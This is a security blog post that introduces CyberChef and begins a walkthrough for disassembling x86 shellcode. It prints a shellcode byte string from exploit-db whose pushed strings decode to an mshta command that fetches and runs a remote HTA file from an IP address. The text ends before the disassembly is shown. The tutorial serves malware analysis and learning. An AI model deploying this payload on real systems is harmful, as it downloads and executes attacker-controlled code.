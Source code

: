 ```yaml
---
layout: post
title: Understand Shellcode with CyberChef
categories: [Malware, CyberChef, Shellcode]
excerpt: Add two parts cyber and one part input to produce a delicious recipe. All joking aside, [CyberChef](https://gchq.github.io/CyberChef/) is a pretty sweet tool that anyone in the cybersecurity community would likely find useful. It really is the entire kitchen sink with over 300 unique operations which can be combined in different ways to help analyze input data. Read on to learn more about using CyberChef. 
---
```

(Estimated Reading Time: 7 minutes)

- [Cooking up Cyber](#cooking-up-cyber)
- [ShellCode Analysis with CyberChef](#shellCode-analysis-with-cyberChef)
- [References](#references)
- [CyberChef Operations](#cyberchef-operations)

## Cooking up Cyber

Add two parts cyber and one part input to produce a delicious recipe. All joking aside, [CyberChef](https://gchq.github.io/CyberChef/) is a pretty sweet tool that anyone in the cybersecurity community would likely find useful. It really is the entire kitchen sink with over 300 unique operations which can be combined in different ways to help analyze input data. The input could be a file or just a chunk of data you want to copy/paste into the tool. CyberChef can be downloaded and ran locally in a web browser, or ran online in the github-io hosted version. I've [referenced](#references) several good collections of recipes below to help with understanding how CyberChef can be used. One thing I sometimes want to do with CyberChef that I havent seen blogged about, is look at Shellcode. In this blog I'll walk through a simple example of looking at some Shellcode with CyberChef and determining what is pushed onto the stack.  

## ShellCode Analysis with CyberChef

I got the following Shellcode from exploit-db, and I want to use CyberChef to understand what this Shellcode is doing. First I copy the Shellcode, as seen below, from [exploit-db](https://www.exploit-db.com/shellcodes/48718), and copy it into the input window of CyberChef.

\x31\xc0\x66\xb8\x72\x74\x50\x68\x6d\x73\x76\x63\x54\xbb\x5c\x39\xe3\x77\xff\xd3\x89  \xc5\x31\xc0\x50\x68\x2e\x68\x74\x61\x68\x57\x61\x52\x4f\x68\x2f\x39\x4d\x4b\x68\x30  \x38\x30\x38\x68\x31\x39\x32\x3a\x68\x2e\x34\x33\x2e\x68\x2e\x31\x36\x38\x68\x2f\x31  \x39\x32\x68\x74\x70\x3a\x2f\x68\x65\x20\x68\x74\x68\x61\x2e\x65\x78\x68\x6d\x73\x68  \x74\x89\xe7\x57\xb8\x6f\xb1\xfa\x6f\xff\xd0\x31\xc0\x50\xb8\x4f\x21\xe3\x77\xff\xd0    

Once you have pasted the Shellcode into CyberChef we need to clean it up a bit. Search for 'replace' and drag the Find/Replace operation into the recipe. Change the type to simple string and replace all '\x' with '' nothing. Basically just removing all the '\x', leaving hex data as output. From there drag in a 'Disassemble x86' operation. Change the bit mode to 32 bit since this is 32bit Shellcode. At this point you should see the Disassembled Shellcode as seen below.
